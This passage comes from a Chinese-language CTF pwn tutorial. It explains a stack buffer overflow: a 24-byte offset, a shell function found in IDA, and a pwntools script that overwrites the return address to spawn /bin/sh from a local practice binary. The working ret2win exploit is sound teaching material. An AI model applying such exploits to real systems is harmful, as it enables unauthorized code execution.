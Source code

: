 返回地址与输入的第一个 A 的距离为 16+8（Char + RBP） 字节，即 24 字节。如果输入 24 字节以上，则会覆盖返回地址。

IDA 中 Search Text，查找 `/bin/sh` 字符串，可以得到 shell 函数的位置为 0x40056A，我们的目的是让程序跳转到该函数，从而执行 `system("/bin/sh")`，从而获得 shell。

![image-20230425172247771](images/image-20230425172247771.png)

通过 pwntools 编辑攻击脚本：

```python
#!/usr/bin/python3
from pwn import *	# 引入 pwntools 库
p = process("./stack")	# 运行本地程序 stack

p.sendline("a"*24+p64(0x40056A).decode('unicode_escape'))
# 向进程中输入，自动在结尾添加 \n
# p64 函数自动将 64 位整数转换为 8 字节字符串，u64 函数则会将 8 字节字符转换为 64 位整数
# decode() 函数用于解决错误 TypeError: can only concatenate str (not "bytes") to str

p.interactive()	# 切换到直接交互模式
```

运行脚本，成功获得 shell。

#### 示例：2023网鼎杯pwn16
